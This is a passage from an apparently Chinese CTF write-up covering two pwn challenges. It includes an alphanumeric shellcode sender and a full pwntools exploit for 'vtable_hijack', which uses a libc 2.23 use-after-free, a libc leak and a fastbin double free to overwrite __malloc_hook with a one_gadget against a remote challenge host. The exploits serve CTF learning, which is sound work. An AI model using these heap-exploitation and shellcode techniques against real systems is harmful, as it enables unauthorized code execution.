context(arch=elf.arch, os=elf.os,log_level='debug')
#context.terminal = ["tmux", "splitw", "-h"]
shellcode='RXWTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjNTYfi9yb0t800T820T870T880t8B0T8J0T8K0T8L0T8M0T8O0T8P0T8T0T8U0T8V0T8W0t8b0T8g0T8h0T8i0T8j0T8n0T8oRAPZ0t8C0t8E0t8H0t8R0t8S0t8Y0t8Z0t8c0t8e0t8fZRAQZ0T810T8lZjUTYfi9EB0t820t830t840t850T8P0T8Q0T8R0T8S0T8URAPZ0t800t81ZHpwzflagUUPHGGT777HAf1RM1RhTTUUXZPHGGTUUUHGFVUUUjUHAbIGBUTUUjqXZP'
# gdb.attach(p,"b *$rebase(0x15AF)")
# pause()
p.sendafter('we go!',shellcode)

p.interactive()

```

### vtable\_hijack

检查保护，看下 libc 版本为 2.23

```
➜  vtable_hijack checksec pwn
[*] '/home/ubuntu/CTF/PWN/CTF赛/国城杯2024/vtable_hijack/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
➜  vtable_hijack ./libc.so.6 
GNU C Library (GNU libc) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
    crypt add-on version 2.1 by Michael Glad and others
    GNU Libidn by Simon Josefsson
    Native POSIX Threads Library by Ulrich Drepper et al
    BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<http://www.gnu.org/software/libc/bugs.html>.

```

低版本 uaf，打 Fastbin Double Free，exp 如下

```
# -*- coding: utf-8 -*-
from pwn import *
# from LibcSearcher import *
#p = process("./pwn")
p = remote("125.70.243.22",31454)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os,log_level='debug')
#context.terminal = ["tmux", "splitw", "-h"]

def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendlineafter("index:", str(index))
    p.recvline()
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:\n", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:\n", "3")
    p.sendafter("index:\n", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:\n", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x200)
add_chunk(1, 0x200)
delete_chunk(0)
#add_chunk(0,0x200)
show_chunk(0)
libc.address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x39bb78
info("libc base: " + hex(libc.address))

add_chunk(0, 0x68)
add_chunk(1, 0x68)

delete_chunk(0)
delete_chunk(1)
delete_chunk(0)
add_chunk(0, 0x68)
edit_chunk(0, p64(libc.sym['__malloc_hook'] - 0x23))
add_chunk(0, 0x68)
add_chunk(0, 0x68)
add_chunk(0, 0x68)
one_gadget = libc.address + [0x3f3e6, 0x3f43a, 0xd5c07][2]
edit_chunk(0, '\x00' * 0x13 + p64(one_gadget))
add_chunk(0, 0x1000)

p.interactive()

```
